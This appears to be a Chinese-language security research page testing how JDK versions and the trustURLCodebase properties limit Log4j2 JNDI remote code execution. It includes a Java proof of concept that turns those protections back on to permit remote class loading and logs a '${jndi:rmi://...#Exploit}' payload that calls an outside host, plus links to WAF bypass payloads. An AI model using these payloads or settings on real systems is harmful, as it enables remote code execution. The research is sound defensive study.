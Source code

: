```yaml
---
layout: about
category: about
toc: true
Researchname: Apache Log4J2 RCE JDK限制实验
desc: 「Apache Log4j2」
author: Bin4xin
permalink: /about/Apache-log4j2-affect-By-JDK-version-walkthrough/
description: Apache Log4j2 远程代码执行 | Apache Log4j2 RCE | Apache Log4j2 JDK限制实验 | Apache Log4j2 JDK limit test walkthrough
---
```


# Apache Log4j-v2 RCE limit

## 对比表

{: .table}
| [JDK](#jdk) | log4j-core/log4j-api | [setProperty](#setproperty) | [RCE](#rce) | 
| :--- | :--- | :--- | :--- |
| 8u181(<8u191) | 2.14.0 | ⭕(RMI/LDAP) | ⭕(RMI/LDAP) |
| 8u181(<8u191) | 2.14.0 | ❌(RMI/LDAP) | ⭕(LDAP) |
| 8u181(<8u191) | 2.14.0 | ❌(RMI/LDAP) | ❌(RMI) |
| - | - | - | - |
| 8u332(>8u191) | 2.14.0 | ⭕(RMI/LDAP) | ⭕(RMI) |
| 8u332(>8u191) | 2.14.0 | ⭕(RMI/LDAP) | ❌(LDAP) |
| 8u332(>8u191) | 2.14.0 | ❌(RMI/LDAP) | ❌(RMI/LDAP) |

### JDK

- `JDK 6u45、7u21`之后：`java.rmi.server.useCodebaseOnly`的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的`java.rmi.server.codebase`指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了`RMI ClassLoader`的安全性。
- `JDK 6u141、7u131、8u121`之后：增加了`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- `JDK 6u211、7u201、8u191`之后：增加了`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。


### setProperty

- `System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");`
- `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");`

such as:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static Logger logger = LogManager.getLogger(log4j.class);
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:rmi://192.168.3.50:4001/#Exploit}");
    }
}
```

### RCE

{: .table}
| PROTOCOL | RMI | LDAP |
| :--- | :--- | :--- |
| - | `${jndi:rmi://..}` | `${jndi:ldap://..}` |
| ⭕(RMI) | ⭕ | ❌ |
| ⭕(LDAP) | ❌ | ⭕ |
| ⭕(RMI/LDAP) | ⭕ | ⭕ |

### Ref

- [LOG4J Java exploit - WAF and patches bypass tricks](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words#-%EF%B8%8F--log4j-java-exploit---waf-and-patches-bypass-tricks){:target="_blank"}
- [CVE-2021-44228 - JNDI code exec](https://github.com/jas502n/Log4j2-CVE-2021-44228#log4j2-sys){:target="_blank"}